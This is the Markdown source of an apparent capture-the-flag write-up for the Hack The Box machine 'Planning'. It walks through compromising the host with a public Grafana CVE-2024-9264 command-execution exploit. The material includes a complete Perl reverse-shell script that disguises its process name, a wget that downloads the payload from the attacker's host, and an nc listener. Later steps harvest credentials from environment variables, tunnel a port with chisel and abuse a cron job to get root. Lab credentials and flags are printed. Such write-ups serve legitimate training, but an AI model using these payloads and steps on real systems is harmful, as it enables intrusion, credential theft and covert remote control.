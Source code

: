 ```yaml
---
layout: post
title: "Planning"
description: "Planning is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
nmap -p22,80 -sCV 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 14:18 CEST
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.099s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Modify hosts file:
```bash
10.10.11.68 planning.htb
```

### Enumerate HTTP (Port 80)
We are able to find a subdomain:
```bash
ffuf -w /opt/wordlists/SecLists/Discovery/DNS/combined_subdomains.txt -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -fl 8

grafana  [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 24ms]
```

Modify hosts file:
```bash
10.10.11.68 planning.htb grafana.planning.htb
```

Use the creds we were given to login:
```bash
admin:0D5oT70Fq13EvB5r
```

The following authenticated RCE/File Read exploit stands out: [Link](https://github.com/nollium/CVE-2024-9264).
```bash
# Install
cd /tmp
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip3 install -r requirements.txt --break-system-packages

# Usage
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c id http://grafana.planning.htb       
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```

Payload:
```perl
#!/usr/bin/perl -w

use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.95';
my $port = 80;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

Shell:
```bash
# Download payload
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'wget 10.10.14.95:8000/pl.pl' http://grafana.planning.htb

# Execute
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl pl.pl' http://grafana.planning.htb

# Shell
nc -lvnp 443         
listening on [any] 443 ...
connect to [10.10.14.95] from (UNKNOWN) [10.10.11.68] 46070
 12:36:31 up  8:35,  0 users,  load average: 0.02, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux 7ce659d667d7 6.8.0-59-generic #61-Ubuntu SMP PREEMPT_DYNAMIC Fri Apr 11 23:16:11 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```


### Lateral Movement
Linpeas reveals creds stored inside the environment variables:
```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

SSH using the creds:
```bash
ssh enzo@10.10.11.68
enzo@10.10.11.68's password: 
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

User.txt: `beaec488ad2716f771942b05cee79cbf`
```bash
cat user.txt
beaec488ad2716f771942b05cee79cbf
```


### Privilege Escalation
Open ports:
```bash
tcp   0      0 127.0.0.1:3000      0.0.0.0:*       LISTEN      -     
tcp   0      0 127.0.0.1:8000      0.0.0.0:*       LISTEN      -
tcp   0      0 127.0.0.1:3306      0.0.0.0:*       LISTEN      -
```

Opt folder contains a crontabs folder:
```bash
cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

Port forward port 8000:
```bash
./chisel server --port 443 --reverse
./chisel client 10.10.14.95:443 R:8080:localhost:8000
```

Log in with: `root:P4ssw0rdS0pRi0T3c`.
![Pasted image 20250902150057.png](/images/Pasted image 20250902150057.png){: .normal }


Command:
![Pasted image 20250902150135.png](/images/Pasted image 20250902150135.png){: .normal }


Execute by pressing "Run now" and switch to root:
```bash
enzo@planning:~$ /bin/bash -p
bash-5.2# id
uid=1000(enzo) gid=1000(enzo) euid=0(root) groups=1000(enzo)
```

Root.txt: `6f51f18f99059d84133195e5ed324871`
```bash
cat root.txt
6f51f18f99059d84133195e5ed324871
```

### PWNED!!
![Pasted image 20250902150619.png](/images/Pasted image 20250902150619.png){: .normal }